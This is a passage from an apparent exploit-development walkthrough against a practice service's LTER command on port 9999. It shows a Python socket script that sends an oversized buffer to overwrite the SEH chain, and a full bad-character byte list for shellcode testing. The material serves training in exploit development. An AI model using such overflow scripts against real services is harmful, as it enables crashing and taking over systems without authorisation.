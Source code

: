 ```term
import socket, sys, struct

buffer = "LTER /.:/" + "A" * 3515 + "BBBB" + "CCCC" + "\xff" * 200

host = sys.argv[1]

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, 9999))

s.send(buffer)

s.close()
```
###### Response of the SEH Chain

![](/assets/img/LTER/3.png)

## Where the fun begins!

##### Let's check for any bad characters that may hurt our shellcode, shall we?

###### List of bad characters

```term
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
```
